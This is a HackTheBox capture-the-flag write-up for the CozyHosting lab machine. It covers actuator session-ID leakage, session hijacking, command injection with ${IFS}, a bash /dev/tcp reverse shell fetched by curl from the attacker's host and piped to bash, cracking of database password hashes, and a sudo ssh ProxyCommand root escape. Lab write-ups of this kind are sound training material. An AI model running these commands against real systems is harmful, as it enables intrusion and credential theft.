# CozyHosting machine on [hackthebox](https://app.hackthebox.com/)


## Enumeration:


Nmap command: 
```
nmap -sV -sC -O 'ip address'

-sV: for service detection.
-sV: for running default script of nmap.
-O: for operating system detection.

tip: u can substitute all of that for -A.
```

Nmap result:
```
Host is up (0.14s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 43:56:bc:a7:f2:ec:46:dd:c1:0f:83:30:4c:2c:aa:a8 (ECDSA)
|_  256 6f:7a:6c:3f:a6:8d:e2:75:95:d4:7b:71:ac:4f:7e:42 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Cozy Hosting - Home
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94%E=4%D=9/6%OT=22%CT=1%CU=33196%PV=Y%DS=2%DC=I%G=Y%TM=64F89924
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=101%GCD=1%ISR=109%TI=Z%CI=Z%II=I%TS=A)SEQ(
OS:SP=101%GCD=1%ISR=10A%TI=Z%CI=Z%II=I%TS=A)SEQ(SP=102%GCD=1%ISR=10B%TI=Z%C
OS:I=Z%II=I%TS=A)SEQ(SP=F9%GCD=1%ISR=109%TI=Z%CI=Z%II=I%TS=A)OPS(O1=M53CST1
OS:1NW7%O2=M53CST11NW7%O3=M53CNNT11NW7%O4=M53CST11NW7%O5=M53CST11NW7%O6=M53
OS:CST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(R=Y%DF=Y%T
OS:=40%W=FAF0%O=M53CNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T
OS:2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=4
OS:0%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%
OS:Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=16
OS:4%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.55 seconds
```

From these we can see that we have 2 open ports:
1) 22 which is running ssh.
2) 80 which is running http (web server).
Let's check the website:


Lets explore it and see what we can find....


After exploring a bit and visiting a couple of pages we got into an interesting one, the 404 page:



As you can see this is not a normal 404 page, so we search for 10 seconds on google and we know that this website in running springboot which is a java application framework for websites,
now a little bit more research about this website and vulnerabilities in it will show you something interesting called "Actuators":



That means we can discover the various endpoints that are available on the website.

So let's go to: cozyhosting.htb/actuator and see what we can find:

tip: use curl and pipe it to a tool called "jq" to make it easier to read like this:

 
 ```
 using : curl http://cozyhosting.htb/actuator/ | jq
 
 {
  "_links": {
    "self": {
      "href": "http://localhost:8080/actuator",
      "templated": false
    },
    "sessions": {
      "href": "http://localhost:8080/actuator/sessions",
      "templated": false
    },
    "beans": {
      "href": "http://localhost:8080/actuator/beans",
      "templated": false
    },
    "health-path": {
      "href": "http://localhost:8080/actuator/health/{*path}",
      "templated": true
    },
    "health": {
      "href": "http://localhost:8080/actuator/health",
      "templated": false
    },
    "env": {
      "href": "http://localhost:8080/actuator/env",
      "templated": false
    },
    "env-toMatch": {
      "href": "http://localhost:8080/actuator/env/{toMatch}",
      "templated": true
    },
    "mappings": {
      "href": "http://localhost:8080/actuator/mappings",
      "templated": false
    }
  }
}
```


## Exploitation


We have here 2 interesting endpoints:
1) sessions, well for sessions.
2) mappings, this will show the different paths to visit in the website.

Going to the cozyhosting.htb/actuators/sessions will show us the following:

```
{"E7A9940B3194AD022D281F0E39D9EB22":"kanderson","BCEE4FF2CB869A2E9393F7A48E903D7F":"UNAUTHORIZED","8E6436517BF53FCCF7EC47A228D0729D":"kanderson","41CC0DC883CF2C33D3C35EE72867FE29":"UNAUTHORIZED","0AEEBFCA6380021D07300D99C15332C2":"UNAUTHORIZED","A1DEF9DB3A41611D9D73830AD182C0FE":"UNAUTHORIZED","C30E5611F631D404FA948CD44736D962":"UNAUTHORIZED","32A41BF1DFC7ACB2168A1F1F6A07FD9A":"kanderson","D5058C81E543C258DA9D0A41132E108D":"UNAUTHORIZED"}
```
basically sessions IDs....

We used burpsuite and the repeater function to be able to send a request to the server with the session ID we just found:



Changing the parameter "Cookie: JSESSIONID" to ```

```
E7A9940B3194AD022D281F0E39D9EB22
```
which is the ID we found earlier...


Doing so got us access to admin dashboard.

In the admin dashboard we can see that there's an input place:


We can now test this for some vulnerabilities such as command injection.

After trying a couple of payloads we found out that it is vulnerable.

```
payload: `id`

result: HTTP/1.1 302 
Server: nginx/1.18.0 (Ubuntu)
Date: Wed, 06 Sep 2023 16:27:59 GMT
Content-Length: 0
Location: http://cozyhosting.htb/admin?error=ssh: Could not resolve hostname uid=1001(app): Name or service not known
Connection: close
X-Content-Type-Options: nosniff
X-XSS-Protection: 0
Cache-Control: no-cache, no-store, max-age=0, must-revalidate
Pragma: no-cache
Expires: 0
X-Frame-Options: DENY
```

The id command seems like to have done something, so lets try to get a reverse shell, which is basically:

You can find many commands online for reverse shell, we know the target is running Linux, so we will use one written in bash:

```
bash -i >& /dev/tcp/<attacker ip>/<any port> 0>&1
```

Unfortunately we weren't able to execute it because of the spaces and the ''&'' signs, so we will write that bash command to a file and upload it to the target machine using curl.

Executing this command on the target system will grant us access to it, but also we must set a listener on our machine:

```
nc -nlvp <any port>

-n: numeric system.
-l: listen.
-v: verbose.
-p: to specify the port
```




Here we are sending a command to the target to curl a file that has the reverse shell command and piping it to bash to execute it.

${IFS}: An environment variable to escape spaces.

Also we need to execute this on our machine:
```
python -m http.server
```
this will make our file accessible to the target machine because we want it to download it

Tip: execute the python command in the same directory that you have your shell file in, so it easier to access.

```
`curl${IFS}10.10.14.132:8000/revshell${IFS}|${IFS}bash`
```

After executing the command we got a reverse shell!!



We found a jar file which is a java archive file containing data and details about the app:



Lets get it on our local machine....

After we got it using the same way (python3 -m http.server) on the target machine and we used (wget) to get it locally.

we can extract it using jar tool provided with jdk:



After we extract it we will get a large folder full of java classes and data about the app, easier way to analyze it is using vscode, after we did so we found an interesting file:


This file had credentials for the locally running database which is using postgres, so now we can dump the database and get all the passwords!

```
psql -h localhost -d cozyhosting -U postgres

-h: the host.
-d: database name.
-U: username
```

after connecting to the database and dumping what we have we get the following: 

```
kanderson:$2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim admin:$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm
```

Hashed passwords for users!!!

We will use john to unhash them, like so:

```
john john -wordlist=/usr/share/wordlists/rockyou.txt pass.txt
--wordlist: to specify the wordlist.
```

After that john will be done in seconds and we will use this command to show the password:

```
john --show pass.txt
```




We got the password! 

So now time to log in via ssh!

When we were exploring our machine we found a user with the username josh from the home directories: 




We will log in from our local machine doing so:

```
ssh josh@10.10.11.230
```


So lets see if this password was for him:



And we got access!!! 
and so is the user flag is here, now time for root.


First let's see what can we run with the sudo command using:

```
sudo -l
```



We can run ssh, which is interesting.

after searching a bit in the internet we can see that we can use it to spawn a root shell using proxycommands.

```
sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
```

lets do it and see what will happen?



Boom! we got root now! and done machine.

thanks for reading!

Happy hacking :)


